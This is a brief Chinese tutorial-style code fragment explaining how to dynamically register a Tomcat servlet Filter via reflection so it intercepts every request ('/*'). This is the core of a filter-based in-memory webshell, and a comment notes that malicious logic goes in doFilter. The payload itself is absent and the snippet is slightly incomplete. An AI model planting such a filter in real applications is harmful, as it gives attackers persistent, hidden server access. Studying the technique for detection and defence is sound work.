

# 基本概念
if (filterConfigs.get(name) == null) {
//创建过滤器实例:在doFilter方法中实现恶意类。
Filter filter = new Filter()
//配置过滤器:
FilterDef filterDef = new FilterDef();
filterDef.setFilter(filter);
filterDef.setFilterName(name);
filterDef.setFilterClass(filter.getClass().getName());
standardContext.addFilterDef(filterDef);
//添加过滤器映射:
FilterMap filterMap = new FilterMap();
filterMap.addURLPattern("/*");
filterMap.setFilterName(name);
filterMap.setDispatcher(DispatcherType.REQUEST.name());
standardContext.addFilterMapBefore(filterMap);
//创建过滤器配置:
Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
constructor.setAccessible(true);
ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);
//将过滤器配置放入 filterConfigs 中:
filterConfigs.put(name, filterConfig);
}

33